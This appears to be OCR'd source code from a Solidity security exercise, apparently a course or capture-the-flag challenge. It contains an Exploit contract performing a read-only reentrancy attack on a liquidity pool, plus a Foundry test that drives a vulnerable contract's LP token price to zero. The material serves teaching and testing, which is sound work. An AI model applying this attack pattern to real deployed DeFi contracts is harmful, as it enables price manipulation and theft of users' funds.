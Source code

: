```
    function earnProfit() external payable {}
}

contract Exploit {
    ReadOnlyPool public readOnlyPool;
    VulnerableDeFiContract public vulnerableDeFiContract;

    constructor(ReadOnlyPool _readOnlyPool, VulnerableDeFiContract _vulnerableDeFiContract) {
        readOnlyPool = _readOnlyPool;
        vulnerableDeFiContract = _vulnerableDeFiContract;
    }

    function exploit() public payable {
        readOnlyPool.addLiquidity{value: msg.value}();
        readOnlyPool.removeLiquidity();
    }

    receive() external payable {
        vulnerableDeFiContract.snapshotPrice();
    }
}
```
- `src/Week10-11/ReadOnly.t.sol`
```
contract ReadOnlyTest is Test {
    address attackerWallet;
    VulnerableDeFiContract vulnerableDeFiContract;
    ReadOnlyPool readOnlyPoolContract;
    Exploit exploitContract;

    function setUp() public {
        attackerWallet = address(0xbadbad);
        readOnlyPoolContract = new ReadOnlyPool();
        vulnerableDeFiContract = new VulnerableDeFiContract(readOnlyPoolContract);
        exploitContract = new Exploit(readOnlyPoolContract, vulnerableDeFiContract);

        readOnlyPoolContract.addLiquidity{value: 100 ether}();
        readOnlyPoolContract.earnProfit{value: 1 ether}();
        vulnerableDeFiContract.snapshotPrice();

        //Player starts with 2 ETH
        vm.deal(attackerWallet, 2 ether);
    }

    function testExploit() public {
        vm.startPrank(attackerWallet);
        exploitContract.exploit{value: 2 ether}();
        _checkSolved();
    }

    function _checkSolved() internal {
        assertEq(vulnerableDeFiContract.lpTokenPrice(), 0);
    }
}
```
